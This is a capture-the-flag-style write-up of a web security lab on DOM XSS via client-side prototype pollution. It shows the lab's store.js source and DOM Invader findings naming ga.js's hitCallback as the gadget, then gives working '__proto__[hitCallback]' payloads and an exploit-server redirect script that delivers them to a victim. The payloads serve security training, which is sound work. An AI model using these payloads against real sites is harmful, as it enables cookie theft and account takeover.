








# Client-side prototype pollution in third-party libraries
# Objective
This lab is vulnerable to DOM XSS via client-side prototype pollution. This is due to a gadget in a third-party library, which is easy to miss due to the minified source code. Although it's technically possible to solve this lab manually, we recommend using DOM Invader as this will save you a considerable amount of time and effort.

To solve the lab:

1. Use DOM Invader to identify a prototype pollution and a gadget for DOM XSS.
2. Use the provided exploit server to deliver a payload to the victim that calls `alert(document.cookie)` in their browser.


# Solution
## Analysis

||
|:--:| 
| *Used scripts* |
||
| *Used scripts - store.js* |

Source code of `store.js`:
```js
window.selectedCategoryId = -1;
window.selectedTabId = -1;
window.tabs = [1,2,3,4,5,6];
window.categories = {13371:1,13372:2,13373:3,13374:4,13375:5,13376:6};

function getTabForCategoryID(categoryId) {
    return window.categories[categoryId];
}

function changeCategory( newCategoryId) {

    if(!newCategoryId) {
        newCategoryId = 13371;
    }

    var oldTabId = selectedTabId;
    var newTabId = getTabForCategoryID( newCategoryId );

    selectedCategoryId = newCategoryId;
    selectedTabId = newTabId;

    if ( oldTabId != newTabId ) {
        var len = tabs.length;
        for ( var tabPos = 0; tabPos < len; tabPos++ ) {
            var currentTabId = tabs[ tabPos ];
            var $Tab = $( '#tab_' + currentTabId );

            if ( currentTabId == oldTabId )
            {
                $Tab.removeClass( 'active' );
            }
            else if ( currentTabId == selectedTabId )
            {
                $Tab.addClass( 'active' );
            }
        }
    }
}

$(
    function()
    {
        $( window ).bind(
            'hashchange',
            function( e )
            {
                console.log('Hash Changed ' + location.hash);
                changeCategory( $.bbq.getState( 'cat' ) );
            }
        );

        $( window ).trigger( 'hashchange' );
    }
);
```

## Exploitation
### Manual exploitation
To use DOM Invader, sink `location.hash` must be enabled.

||
|:--:| 
| *Test for prototype pollution* |

The rest of exploitation was performed using DOM Invader.

### DOM Invader exploitation
DOM Invader detected that `hitCallback` is gadget that can be used to exploit prototype pollution in `location.hash` source. `hitCallback` comes from `ga.js` library.

||
|:--:| 
| *DOM Invader - Detected sources* |
||
| *DOM Invader - Scanning for gadgets* |
||
| *DOM Invader - Scan results* |
||
| *DOM Invader - Final exploit* |

DOM Invader payload:
```
/#__proto__[hitCallback]=alert%281%29
```

Final payload:
```
/#__proto__[hitCallback]=alert(document.cookie)
```

Exploit server configuration:
```js
<script>
    document.location = "https://<id>.web-security-academy.net/#__proto__[hitCallback]=alert(document.cookie)";
</script>
```

||
|:--:| 
| *Exploit server configuration* |